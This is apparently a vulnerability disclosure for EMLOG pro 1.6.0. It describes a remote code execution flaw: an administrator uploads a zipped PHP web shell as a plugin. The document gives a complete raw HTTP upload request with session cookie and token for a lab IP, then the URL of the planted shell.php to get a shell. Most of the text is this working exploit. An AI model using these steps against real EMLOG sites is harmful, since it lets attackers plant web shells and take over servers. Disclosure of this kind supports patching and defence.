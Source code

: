 # EMLOG_pro_1.6.0（latest version） plugins upload rce vulnerability
### EMLOG download address：https://github.com/emlog/emlog/releases/tag/pro-1.6.0
## 1. Login as admin and upload a plugin (a zip which include a php file)
### payload 
```
POST /emlog/admin/plugin.php?action=upload_zip HTTP/1.1
Host: 192.168.111.155
Content-Length: 876
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.111.155
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOK8HOjtKZalBj6CG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.111.155/emlog/admin/plugin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lq0s731hnlqm232itjlgpc27el; EM_AUTHCOOKIE_jT79impSwTWeimzUBIsgAmv1NoQbG2Zs=admin%7C1695536025%7C848fc865191736412177851eb6082b92
Connection: close

------WebKitFormBoundaryOK8HOjtKZalBj6CG
Content-Disposition: form-data; name="pluzip"; filename="shell.zip"
Content-Type: application/x-zip-compressed

PK
------WebKitFormBoundaryOK8HOjtKZalBj6CG
Content-Disposition: form-data; name="token"

4e1bef9d513bae43a46448cbbaee0db7d1d5f7d1
------WebKitFormBoundaryOK8HOjtKZalBj6CG--
```
![](emlog-01.jpg)

## 2. Active the plugin you uploaded and get a shell!
### payload
```
http://192.168.111.155//emlog/content/plugins/shell/shell.php
```
![](emlog-02.jpg)

